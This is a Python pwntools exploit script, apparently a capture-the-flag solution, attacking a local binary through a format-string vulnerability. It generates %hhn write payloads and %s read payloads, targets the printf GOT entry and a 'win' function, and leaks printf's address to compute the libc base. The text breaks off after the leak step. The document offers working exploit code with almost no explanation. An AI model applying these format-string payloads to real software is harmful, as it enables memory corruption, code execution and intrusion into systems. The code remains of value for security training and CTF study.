 ```python
libc = ELF(LIBC)
binary = ELF(BINARY)
printf_got = binary.got['printf']
binary_win_addr = binary.symbols['win']
libc_printf_offset = libc.symbols['printf']
libc_system_offset = libc.symbols['system']


def gen_write_format(offset, value, value_size):
    ''' 
    This method assumes the goal addresses to-be-written resides within 'offset' bytes.
    value is the value to be written, and value_size denotes its byte count
    '''
    position = 6 + int(offset / 8)
    value_bytes = list(value.to_bytes(value_size, 'little'))
    value_bytes_sorted = sorted(value_bytes)

    payload = b''
    prev_val = 0
    for val in value_bytes_sorted:
        val_index = value_bytes.index(val)
        payload += b'%' + str(val - prev_val).encode() + b'c'
        payload += b'%' + str(position + val_index).encode() + b'$hhn'
        prev_val = val
        value_bytes[val_index] = b'\xffffffff'  # invalidate byte

    payload += (8 - (len(payload) % 8)) * b'B'
    print(payload)

    return payload


def gen_read_format(offset):
    ''' 
    This method assumes the address to-be-read resides within 'offset' bytes, relative to rsp
    '''
    position = 6 + int(offset / 8)
    buf = b'%' + str(position).encode() + b'$s'

    return buf


def main(): 
    # p0 = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
    p0 = process(BINARY)
    rsp_to_format_offset = 0xe0

    format_size = 0x300
    format_to_printf_addr_offset = format_size
    printf_got_offset = rsp_to_format_offset + format_to_printf_addr_offset
    
    buf_1 = b''
    buf_1 += gen_read_format(printf_got_offset)
    buf_1 += b'A' * (format_size - len(buf_1))
    buf_1 += struct.pack('<Q', printf_got)
    # Leak printf address
    p0.send(buf_1)
    p0.recvuntil(b'what you got :P\n')
    libc_printf_addr = struct.unpack('<Q', p0.recv(6) + b'\x00\x00')[0]
    libc_base = libc_printf_addr - libc_printf_offset
    print(f'libc_base:{hex(libc_base)}')
    assert(libc_base & 0xfffffffffffff000 == libc_base)

```